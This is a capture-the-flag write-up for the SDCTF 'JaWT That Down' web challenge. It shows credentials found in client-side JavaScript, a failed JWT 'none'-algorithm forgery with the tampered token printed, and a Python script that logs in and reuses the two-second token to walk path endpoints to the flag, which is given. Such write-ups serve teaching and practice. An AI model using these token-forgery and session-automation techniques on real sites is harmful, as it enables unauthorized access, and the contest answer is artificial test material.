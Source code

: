 # JaWT That Down

**Category**: Web  
**Level**: Easy  
**Points**: 200  
**Description**: The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
Website
https://jawt.sdc.tf/

### Writeup

The description of this challenge doesn't have much clues but the creator have deliberately captilized the letters 'J', 'W', 'T' in the heading which caught our attention. We immediately got the hint that this challenge will require the knowledge of JWT and its exploitation. We started by glancing through the website's functionality on a very high level and were easily able to figure out that we somehow have to get through the user login. This will provide us the JWT token which can be further exploited to get the flag. After this high level run through, I was assigned to pick up this challenge.


##### Step 1 : Finding User Login Credentials

I started by performing SQL injection in the login form with simple payloads from the top of my head but it didn't work. I was tempted to run `sqlmap` behind the scenes but I resisted and looked through the source code using browser's(Chrome in my case) debugger tools. I took this detour because I had also spent time on the challenge 'HuMongous Mistake'(which I wasn't able to solve) and found some useful comments in the JavaScript source code.

So my approach was to look for potentially dangerous JavaScript functions in JS file `login.js` which was loaded on the login form web page. The code was written in reactJS and one such function was `dangerouslySetInnerHTML`. Under one of the occurences of this function was the user credentials using which I was successfully able to log in. This saved me a lot of time. 

![Browser Debugger Tools JS Code](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_debugger_js_user_pass.png)

However, later I realised that I could have right clicked on the username/password field of login form and selected "Inspect". This would also have shown me the user credentials.

![Browser Debugger Tools HTML Code](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_debugger_user_pass.png)

##### Step 2 : Observe After Log In

After login, the first thing that caught my eye was an extra menu item named 'Flag' on the top left. But once I click on it, it showed "Invalid Token: Access Denied". 

![Browser Flag Menu Item](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_flag_menu_item.png)

![Browser Invalid Token](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_invalid_token.png)

I fired up Burp Suite and intercepted the HTTP call which is sent once I click on 'Flag'. Let's call it flag endpoint. The first thing that caught my eye was the JWT token which is passed in Cookie request header. So, I replayed the request after removing the Cookie request header which showed me a different error "No Token: Access Denied". I was fully convinced that I am on the right track and I need to pass a valid JWT token in order to proceed. 

![Burp Suite No Token](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/burp_suite_no_token.png)

##### Step 3 : Get Valid JWT for Flag Endpoint

My next step was to figure out why my JWT is invalid. I decoded and read the contents of the JWT token on https://jwt.io/ and figured out that the issue time(iat) and expiry time(exp) has a gap of mere 2 seconds which explained the error "Invalid Token: Access Denied" because by the time I clicked on 'Flag' the token was already expired. I had two solutions in my mind to overcome this problem:
1. Either, I can verify if JWT signature verfiication can be bypassed which will allow me to increase the expiry time.
2. Or, I make a script to automate this process of logging in and using the JWT token in the next flag endpoint.

**First Approach - Signature Verification Bypass**

I went with the first option because writing a script for me would take comparatively more time. Here is a [good read of JWT's 'none' algorithm](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f).
Essentially, I divided the JWT token into 3 base64 encoded parts by splitting it using '.'(period). I base64 decoded the first part on https://www.base64decode.org/, changed the value of "alg" to "none", base64 encoded it on https://www.base64encode.org/. This was tampering of first part of JWT(called header). Then I did the same thing with the second part(called payload) except I increased the expiry to a month. I joined both the parts and recreated my final JWT token

*Before*: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjUyMTc3MTE0fQ.jmcOs7t4hSFYad3wz2S993jJ7lQOYbG_paBrqSByBBM`

*After*: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjU0ODU3NDI3fQ.`

However, I got the same error "Invalid Token: Access Denied" using my new token. Hence, I scratched out the first approach and went back to the second approach.

**Second Approach - Automate Log In and Flag Endpoint**

I quickly wrote a little python script which looked like this:
```python
import requests
from requests_toolbelt.utils import dump

ch = 's'

loginUrl = "https://jawt.sdc.tf/login"
payload = {'username':'AzureDiamond','password':'hunter2'}

r = requests.post(loginUrl, data=payload, allow_redirects=False)
cookieHeader = r.headers['Set-Cookie']
if not cookieHeader:
	print("cookie header not found")
	exit()

cookieKeyValue = cookieHeader.split(";")[0].split("=")

flagUrl = "https://jawt.sdc.tf/"+ch

cookies = {}
cookies[cookieKeyValue[0]] = cookieKeyValue[1]

re = requests.get(flagUrl, cookies=cookies)
data = dump.dump_all(re)
print(data.decode('utf-8'))
```

The above script hits the `/login` endpoint, reads the JWT token from Set-Cookie response header, sets it in the the flag endpoint `/s` and prints the request/response of the flag endpoint. It gave me the following output:

```http
< GET /s HTTP/1.1
< Host: jawt.sdc.tf
< User-Agent: python-requests/2.27.1
< Accept-Encoding: gzip, deflate
< Accept: */*
< Connection: keep-alive
< Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiMzc5Y2EyOWRmNmQ5ZjM1N2U5ZTdjZWEzOTcxNzQ2NiIsImlhdCI6MTY1MjE3OTI4MCwiZXhwIjoxNjUyMTc5MjgyfQ.7lxeRGwHBFhpeChplXje1-LLHbF_mdZx7DzrCpgl32M
<

> HTTP/1.1 200 OK
> Date: Tue, 10 May 2022 10:41:20 GMT
> Content-Length: 1
> Connection: keep-alive
> X-Powered-By: Express
> Via: 1.1 google
> CF-Cache-Status: DYNAMIC
> Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
> Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=aiYf7PWSnmhxBfoNe5a%2BJ8YB3o%2BvUj8O1CK55r300zSWI50ioyAHEvt38IH2N8wAQ2B9uC2tmKKR%2B7CaAzOqcSLY%2FOcBKGoaTu%2BmO8MAyiIyIQB3LQ0VOZckW%2BXQMQ%3D%3D"}],"group":"cf-nel","max_age":604800}
> NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
> Server: cloudflare
> CF-RAY: 70920fd6dab29e47-SIN
> alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
>
d
```

I wasn't able to understand the response of this for a long time. I tried hitting `/d` endpoint by changing the python script but it gave me 404 not found. Similariy, I tried hitting `/sd` and enumerated from `/a` to `/z` both in small and capital letters but got the same result. At this point, I took a new challenge. I later got an idea to give a try to `/s/d` and it worked. It gave me `/c`. Since all the flag of this challenge started with 'sdctf' therefore I continued this methodology by changing the script, saving and hitting one by one. Eventually I got this endpoint `https://jawt.sdc.tf/s/d/c/t/f/{/T/h/3/_/m/0/r/3/_/t/0/k/3/n/s/_/t/h/e/_/l/e/5/5/_/p/r/0/b/l/3/m/s/_/a/d/f/3/d/}` which has the flag

**Flag** - `sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}`


### Real World Application

In real world applications, short-lived JWT tokens are very much used. But even if they are short-lived, they can be exploited to retrieve sensitive information. Hence, reducing the expiry time wouldn't necessarily mean that the system is protected.
During the course of this challenge, I had great fun reading about JWT, JWK and JWS which enhanced my knowledge while at the same time helped me practically understand the exploitation of it.